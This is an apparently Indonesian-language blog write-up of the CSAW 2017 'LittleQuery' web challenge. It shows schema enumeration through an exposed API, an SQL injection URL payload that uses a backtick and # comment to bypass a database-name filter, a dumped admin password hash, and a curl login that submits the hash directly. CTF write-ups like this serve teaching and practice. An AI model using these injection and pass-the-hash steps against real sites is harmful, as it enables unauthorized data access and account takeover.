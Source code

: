 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2017-08-21
date: 2017-08-21
title: Writeup CSAW 2017 LittleQuery - 200
tags: beefest
mathjax: false
imagefeature: 
description: Writeup CSAW 2017 LittleQuery - 200
category: Web Exploitation
chart: null
---
```



## Problems

```
LittleQuery
I've got a new website for BIG DATA analytics!

http://littlequery.chal.csaw.io
```


## POC

Di source code pada halaman index kita bisa menemukan ada source yang di comment

```
            <!--
            <div class="col-md-4">
                <h2>For Developers</h2>
                <p>Check out our <a href="/api/db_explore.php">API</a></p>
            </div>
            -->
```


kita bisa melakukan explore terhadap database mereka menggunakan api yang tersedia,
ada 2 mode untuk mengexplor databasenya yaitu `mode={schema|preview}` schema untuk melihat schema dari
table atau database.

so kita gunakan schema `http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema` untuk melakukan
list available databases ditemukan ada database namanya `littlequery`, kemudian list table apa saja yang 
ada pada database littlequery `http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery`
so kita dapat ada table `user`

```
{
    tables: [
        "user"
    ]
}
```

kemudian untuk melakukan list kolom pada table user gunakan `http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery&table=user`
dan di dapatkan

```
{
    columns: {
        uid: "int(11)",
        username: "varchar(128)",
        password: "varchar(40)"
    }
}
```

untuk melakukan dump datanya kita bisa gunakan mode preview ke `http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery&table=user`
tapi ternyata ada filter yang melarang untuk melakukan preview terhadap database `littlequery`

setelah mencoba menlakukan injek terhadap parameter db dan table kita bisa memanipulasi parameter db sehingga
tidak match dengan == "littlequery" kita bisa menggunakan # sebagai comment

illustrasi kodingan yang digunakan adalah sebagai berikut

```
$db = addslashes($_GET['db']);
$table = addslashes($_GET['table']);

if($db == "littlequery"){
    die("Deny");
}

$query = "SELECT * from `".$db."`.".$table."`";
```

kita bisa melakukan bypass dengan menggunakan payload sebagai berikut `http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery`.`user`%23&table=foobar`
$query akan jadi seperti berikut 

```
SELECT * from `littlequery`.`user`#`foobar`

query yang tereksekusi adalah => SELECT * from `littlequery`.`user`

$db = "littlequery`.`user`#" // jadi kita gak kena deny lagi
```

didapatkan user dan password yang di hash 

```
[
    {
        uid: "1",
        username: "admin",
        password: "5896e92d38ee883cc09ad6f88df4934f6b074cf8"
    }
]
```

kita tidak harus mencari plain-text dari SHA-1 tersebut karena website tersebut menerima login dengan
hashed password bukan dengan plaintext password diketahui dari script yang ada di login.js

```
$(".form-signin").submit(function () {
    var $password = $(this).find("input[type=password]");
    $password.val(CryptoJS.SHA1($password.val()).toString());
});
```

kita bisa kirim POST data dengan curl `curl -X POST http://littlequery.chal.csaw.io/login.php --data "username=admin&password=5896e92d38ee883cc09ad6f88df4934f6b074cf8" -v`
ambil cookie yang di kirimkan response `Set-Cookie: PHPSESSID=6cidmmh[...]cd63qr9nhgb7; path=/` kemudian
set cookie ke browser kalian untuk berpindah ke state login dan bisa akses ke `/query.php`


di temukan flag `flag{mayb3_1ts_t1m3_4_real_real_escape_string?}`

![Flag](https://cdn.pbrd.co/images/GKSIR6m.png)